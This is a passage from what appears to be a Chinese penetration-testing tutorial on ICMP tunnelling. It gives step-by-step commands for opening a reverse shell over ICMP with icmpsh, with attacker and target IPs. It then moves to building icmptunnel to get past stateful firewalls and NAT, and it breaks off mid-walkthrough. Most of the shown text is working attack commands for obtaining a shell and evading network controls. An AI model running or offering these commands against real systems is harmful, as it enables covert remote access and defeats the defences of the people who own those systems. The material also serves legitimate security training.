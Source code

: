 



```none
攻击机 IP：172.16.214.6目标机 IP：172.16.214.2
```

在攻击机上运行：







```none
python2 icmpsh_m.py 172.16.214.6 172.16.214.2
```

在目标机上运行







```none
./icmpsh.exe -t 172.16.214.6
```

此时在攻击机上可以看到通过 icmp 协议建立的 shell



![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2021-04-07_15-43-51.png)



### icmptunnel

icmptunnel 的优势在于可以穿过状态防火墙或 NAT，同样在 github 上进行下载，值得注意的是该工具只有 Linux 版。







```none
git clone https://github.com/jamesbarlow/icmptunnel.git
cd icmptunnel
make
```

目前有这样的一个场景，攻击者为 Linux，但由于目标存在状态防火墙或者使用了 NAT 导致无法获得 shell，此时可以通过 icmptunnel 绕过限制。







```none
攻击机 IP：172.16.214.6
目标机 IP：172.16.214.5
```

在攻击机上运行：

